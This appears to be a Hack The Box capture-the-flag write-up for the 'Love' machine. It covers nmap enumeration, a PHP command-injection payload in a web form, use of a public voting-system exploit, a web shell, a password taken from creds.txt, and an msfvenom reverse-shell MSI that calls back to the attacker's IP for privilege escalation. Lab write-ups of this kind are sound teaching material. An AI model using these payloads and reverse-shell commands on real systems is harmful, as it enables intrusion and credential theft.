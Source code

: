 ```yaml
---
title: "Love"
date: 2024-09-27
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "love", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Enumeration

### Nmap

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
...
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
...
|_http-title: Not Found
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

### 80-HTTP

#### Gobuster

![screenshot](/assets/images/love11.png)

#### Web

![screenshot](/assets/images/love1.png)

http://staging.love.htb/

![screenshot](/assets/images/love2.png)

http://staging.love.htb/beta.php

![screenshot](/assets/images/love3.png)

#### Test for command injection

![screenshot](/assets/images/love7.png)

![screenshot](/assets/images/love6.png)

#### Test for reverse shell

```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![screenshot](/assets/images/love8.png)

#### /admin

http://10.10.10.239/Admin/

![screenshot](/assets/images/love9.png)

#### /plugins

http://10.10.10.239/plugins/

![screenshot](/assets/images/love10.png)

## Initial Access

>- Searching for `voting system` reveals a public exploit
- Using the public exploit gives initial shell as phoebe.

![screenshot](/assets/images/love15.png)

[Public exploit used](https://www.exploit-db.com/exploits/49846)

![screenshot](/assets/images/love16.png)

upload a shell

![screenshot](/assets/images/love17.png)

rev.ps1

![screenshot](/assets/images/love18.png)

![screenshot](/assets/images/love19.png)

Used a PHP Ivan web shell

![screenshot](/assets/images/love20.png)

## Privilege Escalation

> AlwaysInstallElevated

`C:\xampp\htdocs\passwordmanager\creds.txt` contains a password. 

![screenshot](/assets/images/love21.png)

Password spray, and Evil-WinRM attempt.

![screenshot](/assets/images/love22.png)

Manual enumeration

![screenshot](/assets/images/love23.png)

![screenshot](/assets/images/love24.png)

[Reference](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

![screenshot](/assets/images/love25.png)

```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![screenshot](/assets/images/love26.png)
